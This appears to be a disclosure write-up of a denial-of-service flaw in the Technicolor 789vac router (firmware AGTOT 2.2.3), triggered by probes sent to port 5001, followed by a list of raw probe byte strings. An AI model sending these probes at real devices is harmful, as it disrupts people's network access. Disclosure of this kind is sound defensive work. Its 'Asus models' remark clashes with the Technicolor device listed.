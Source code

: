 ```yaml
---
layout: post
title: -
date: 2025-01-15
comments: -
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
Probe #3: b'\r\n\r\n'
Probe #4: b'GET / HTTP/1.0\r\n\r\n'
Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #10: b'HELP\r\n'
Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
```



 
